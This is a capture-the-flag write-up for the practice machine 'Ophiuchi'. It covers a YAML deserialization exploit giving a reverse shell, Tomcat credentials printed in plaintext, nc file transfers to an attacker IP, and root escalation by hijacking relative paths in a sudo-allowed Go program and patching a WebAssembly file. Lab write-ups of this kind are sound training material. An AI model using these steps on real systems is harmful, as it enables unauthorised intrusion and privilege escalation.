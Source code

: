 # Ophiunchi
IP : 10.10.10.227 

nmap show us there are two ports open 

|Port|Servce|
|----|----| 
|22|ssh|
|8080|http|

The http server is a apache server with yaml parser. 
YAML is data.serialization language. It common used for configuration files and used for application for stored or transmittied. 

[https://github.com/artsploit/yaml-payload](https://github.com/artsploit/yaml-payload)

Has a excellence exploit for yaml 

Once I get a reverse shell as tomcat. 
time to look for a way to privilege escalation to user. 
During eom emulation I find the creditials of the user in file /opt/tomcat/conf/tomcat-users.xsd

```
<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
```

I can now ssh into the machine using the credientals.

## privilege escalation to root 
Frist we check what we can run as root without password. 

```
(ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go
```

Lets see what the file says:

```
package main

import (
        "fmt"
        wasm "github.com/wasmerio/wasmer-go/wasmer"
        "os/exec"
        "log"
)


func main() {
        bytes, _ := wasm.ReadBytes("main.wasm")

        instance, _ := wasm.NewInstance(bytes)
        defer instance.Close()
        init := instance.Exports["info"]
        result,_ := init()
        f := result.String()
        if (f != "1") {          <==========================================
                fmt.Println("Not ready to deploy")
        } else {
                fmt.Println("Ready to deploy")
                out, err := exec.Command("/bin/sh", "deploy.sh").Output()
                if err != nil {
                        log.Fatal(err)
                }
                fmt.Println(string(out))
        }
}
```

We can see a mistake in the programming in the code, instead for absolute path it relative path, allows us to manipulate these varibles so they can read from current working directory, from where we execute index.go. 

Lets make a tmp file and copy main.wasm and create a deploy.sh 

```
mkdir tmp

cp /opt/wasm-functions/main.wasm ./
touch deploy.sh
nano deploy.sh
```

We write to our file that echo the content for root.txt 
```
#!/bin/sh

cat /root/root.txt
```

Lets run the command and see what happens. 
... Not ready to deploy so the value of f from main.wasm is not 1.

We have to edit the main.wasm file to ensure that main.wasm output with f with 1. 

[https://github.com/webassembly/wabt](https://github.com/webassembly/wabt) 

```
sudo apt install wabt  #install the binary needed  
```

allows us to edit wasm by converting it to wat the readable format for wasm files. 

transfer the main.wasm to your own machine so we have the oppitunity to edit it. 

```
nc 10.10.14.200 5555 < main.wasm
nc -lnvp 5555 > main.wasm    
```
Convert the file to wat 
```
wasm2wat main.wasm > main.wat 
nano main.wat 
```

min.wat content. 
```
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 0)      <=======================================
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```
It will never return with a value other then 0, lets change that by editing it too 1. 
```
i32.const 1) 
```

Convert back to wasm and transfer to target 
```
wat2wasm main.wat
scp main.wasm admin@ophiuchi.htb:/home/admin/tmp
```

Run the command again and get the flag. 
```
/usr/bin/go run /opt/wasm-functions/index.go
```